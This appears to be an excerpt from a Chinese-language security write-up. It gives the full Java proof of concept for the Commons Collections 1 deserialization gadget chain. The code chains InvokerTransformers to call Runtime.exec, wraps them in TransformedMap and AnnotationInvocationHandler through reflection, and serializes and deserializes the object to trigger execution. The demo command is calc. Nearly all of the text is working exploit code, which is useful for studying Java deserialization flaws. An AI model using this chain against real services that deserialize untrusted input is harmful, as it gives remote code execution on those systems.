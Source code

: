 **最终payload**

```java
public class CommonCollections1POC {
    public static void main(String[] args) throws Exception {
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}),
                new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}),
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"}),

        };
        Transformer transformerChain = new ChainedTransformer(transformers);

        HashMap<Object,Object> map = new HashMap<>();
        map.put("value","123");
        Map<Object,Object> transformedMap = TransformedMap.decorate(map, null, transformerChain);
        
//        手动触发setvalue
//        for (Map.Entry entry: transformedMap.entrySet()) {
//            // 调用 SetValue，SetValue 中调用了 checkSetValue，checkSetValue 调用了 transform
//            entry.setValue(runtime);
//        }

        //类没有注明类型，默认为 default，即只能在本包内使用，所以需要用反射调用执行
        Class c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor annotationInvocationdhlConstructor = c.getDeclaredConstructor(Class.class, Map.class);
        annotationInvocationdhlConstructor.setAccessible(true);
        // Target 注解类型
        Object o = annotationInvocationdhlConstructor.newInstance(Target.class, transformedMap);

        serialize(o);
        unserialize("ser.bin");

    }

    public static void serialize(Object obj) throws IOException {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(obj);
    }

    public static Object unserialize(String Filename) throws IOException, ClassNotFoundException {
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = ois.readObject();
        return obj;

    }
}
```
